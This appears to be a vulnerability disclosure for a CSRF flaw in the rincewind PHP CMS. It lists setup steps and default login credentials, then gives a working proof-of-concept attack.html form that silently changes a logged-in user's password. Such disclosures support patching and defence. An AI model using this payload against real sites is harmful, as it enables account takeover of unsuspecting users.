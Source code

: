 app: https://github.com/sharpless/rincewind


An issue was discovered in rincewind cms before 2011-2-20 . There is a CSRF vulnerability that can change a user account's password via index.php?p=account page to access a attack page


0x001 first Setting up Test Environment 

* php
* mysql
* apache2
* ubuntu
  

To install:

1) Download the zip-file, or clone the repository
2) Copy config-template.php to config.php
3) Edit config.php to match your database settings
4) Optional: add or remove links in the $meny-array
5) Change WS_TITLE to whatever you like
6) Create the database you want to use, if it doesn't exist
7) Go to the ?p=install page on the site.

![](img/2018-07-24-16-15-22.png)

![](img/2018-07-24-16-16-26.png)


0x002 csrf 

choose `Ja` and Click `Installera` the database will be reset by default sql data of folder `sql/*.php`

`mikael` and `hemligt` 


![](img/2018-07-24-16-19-33.png)

login the app use `mikael` and `hemligt` 

![](img/2018-07-24-16-38-36.png)

create a `attack.html` file

```
<html>
<form action="http://10.88.16.205/?p=accounteditp" method="POST">
    <input type="hidden" name="password" value="123456">
    <input type="hidden" name="password2" value="123456">
    <input type="submit" name="passwordsubmit" value="Uppdatera lösenord">
</form>
</html>
```

access the file and click `Uppdatera lÃ¶senord` then the password will be changed 

![](img/2018-07-24-17-07-24.png)

![](img/2018-07-24-17-09-07.png)